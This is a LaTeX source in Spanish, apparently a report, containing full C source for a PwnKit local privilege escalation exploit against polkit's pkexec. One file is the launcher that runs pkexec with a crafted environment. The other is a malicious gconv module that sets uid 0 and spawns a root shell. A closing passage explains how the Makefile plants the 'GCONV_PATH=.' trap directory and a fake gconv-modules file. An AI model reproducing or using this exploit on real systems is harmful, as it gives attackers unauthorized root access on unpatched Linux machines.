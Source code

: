\documentclass[letterpaper,11pt]{article}
\begin{document}
\textbf{Codigo de pwnkit.c:}

\begin{lstlisting}[style=cstyle]
#include <unistd.h>

int main() {
    char *argv[] = { NULL };

    char *envp[] = {
        "pwn",
        "TERM=..",
        "PATH=GCONV_PATH=.",
        "CHARSET=BRUH",
        NULL
    };

    execve("/usr/bin/pkexec", argv, envp);
    return 0;
}
  
\end{lstlisting}

\newpage
\textbf{Codigo de conversion-mod.c}

\begin{lstlisting}[style=cstyle]
#define _GNU_SOURCE
#include <unistd.h>
#include <gconv.h>

int gconv_init() {

    setuid(0);
    setgid(0);

    char *args[] = {"sh", NULL};
    char *envp[] = {"PATH=/bin:/usr/bin:/sbin", NULL};

    execvpe("/bin/sh", args, envp);

    return(__GCONV_OK);
}

int  gconv(){ return(__GCONV_OK); }
\end{lstlisting}

La primera regla es \textbf{\texttt{all}}. Donde en este caso, funciona como el punto de entrada
predeterminado cuando se ejecuta el comando \texttt{make} en la consola. Lo que hace es indicarle
al sistema el orden exacto en el que deben ejecutarse las demás tareas: primero limpia cualquier
rastro de ejecuciones anteriores (\texttt{clean}), luego prepara los directorios y archivos trampa
(\texttt{setup}), después compila la biblioteca maliciosa (\texttt{conversion-mod.so}) y finalmente
compila el ejecutable principal del exploit (\texttt{pwnkit}).

La regla \textbf{\texttt{setup}} es la sección más ingeniosa y el núcleo del engaño para explotar
esta vulnerabilidad en específico. Lo que hace primero es crear un directorio con un nombre muy
peculiar: \texttt{GCONV\_PATH=.}. Ademas de que, utilizando los comandos \texttt{touch} y
\texttt{chmod}, crea un archivo vacío llamado \texttt{pwn} dentro de ese directorio extraño y le
otorga permisos de ejecución. Posteriormente, crea una carpeta normal llamada \texttt{pwn} y,
usando el comando \texttt{echo}, escribe dentro de ella un archivo de configuración falso llamado
\texttt{gconv-modules}. Donde en este caso, este archivo de texto es fundamental porque, gracias a
la sintaxis engañosa, le indicará al programa vulnerable (\texttt{pkexec}) que debe cargar nuestro
módulo malicioso (\texttt{conversion-mod}) cuando intente procesar la codificación de caracteres.
\end{document}
